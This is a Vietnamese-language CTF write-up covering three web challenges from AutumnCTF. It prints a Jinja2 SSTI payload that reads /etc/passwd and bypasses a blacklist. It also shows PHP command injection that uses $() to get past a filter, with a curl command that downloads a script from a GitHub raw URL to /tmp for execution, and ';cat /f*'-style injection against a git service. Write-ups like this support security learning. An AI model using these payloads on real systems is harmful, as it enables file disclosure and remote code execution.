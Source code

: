 ```yaml
---
title: AutumnCTF ISP Write-up
date: 2022-08-10
categories: [writeup]
tags: [web]
---
```

# AutumnCTF ISP

# Hello my fen

Sau khi đọc source và biết được backend là flask jinja 2 thì có thể đoán luôn được là bài này bị dính SSTI, giờ tìm cách bypass black list và white list của bài thôi.

Lên payload all the things chọn một payload thuộc phần read remote file: 

`{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}`

Sửa file `/etc/passwd` thành `[app.py](http://app.py)` để đọc thử thì thấy kết quả trả về đúng là nội dung file. Giờ thì sẽ làm sao để có thể in ra được nội dung của file `flag.txt`  vì từ `flag` đã nằm trong blacklist

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled.png)

Đến đây thì ta phải dùng hàm `join()` của python để nối chuỗi lại với nhau tạo thành tên file `flag.txt`.

Payload: 

`{{ get_flashed_messages.__globals__.__builtins__.open("lag.tx".join("ft")).read() }}`

Flag: **`FLAG{did-you-really-understand-ssti??}`**

# Ping service v1

Chức năng của website sẽ là nhập một địa chỉ ip rồi sẽ chạy lệnh ping đến địa chỉ ip đó

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%201.png)

⇒ liên quan đến Command Injection

Ctrl+U lên để check source thì thấy có ?debug, vào check source nào

```php
<?php
if (isset($_GET['debug'])) {
    die(show_source(__FILE__));
}
if (isset($_GET['addr'])) {
    $addr = $_GET['addr'];
    $addr = preg_replace('/\||&|;|`|{|}|"|\'|cat|tail|>|<|\n/', ' ', $addr);
    $cmd = 'ping -c 2 ' . $addr . ' 2>&1';
    $ans = shell_exec($cmd);
    $ans = '<h3>' . preg_replace('/\r|\n/', '<br/>', $ans) . '</h3>';
}
```

Bên trên là đoạn code cần chú ý, phía backend sẽ dùng hàm `preg_replace()` để filter input mà người dùng nhập vào. Nhưng ở đây ta có thể dùng câu lệnh ví dụ như `$(pwd)` để bypass filter này.

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%202.png)

Hướng làm bây giờ sẽ là up 1 file bất kì có chứa nội dung là `cat /flag` trên nền tảng github. Sau đó dùng lệnh `curl` để tải file về phía server. Phải thay đổi vị trí tải file vị trí folder hiện tại `/var/www/html` sẽ không cho phép tạo thêm file

Tạo file trên github

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%203.png)

Sau đó vào phần raw, copy url.

Lệnh `curl` cần dùng:

```php
$(curl https://raw.githubusercontent.com/kmaron1n/temp/main/a.txt -o /tmp/a)
```

câu lệnh trên sẽ gán nội dung của file a.txt vào file mới tạo là `/tmp/a` 

Check xem folder `/tmp` đã có file a chưa:

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%204.png)

OK!

Giờ thì chạy file `a` rồi lấy flag thôi

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%205.png)

Flag: **`FLAG{not-show-stdout-when-r-stupid}`**

# Git checker

Khi truy cập vào đường dẫn ta sẽ được giao diện như sau. 

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%206.png)

Chức năng của website sẽ là chạy lệnh git. CHo chạy qua proxy burpsuite bắt requests, ta thấy command sẽ được truyền tới server dưới dạng JSON

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%207.png)

Param `args` thay đổi được, có vẻ bài này sẽ khai thác được bằng lỗi Command Injection.

Thử thay giá trị của `args` bằng một số payload, ví dụ: `;id;` ⇒ payload hoạt động

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%208.png)

Thử tìm xem có file flag ở đây không bằng payload `;ls` ,  flag nằm cùng thư mục luôn.

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%209.png)

Dùng payload `;cat /f*` được Flag

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%2010.png)

Flag: `FLAG{g1t-c0mm4nd_1sn't_s4f333}`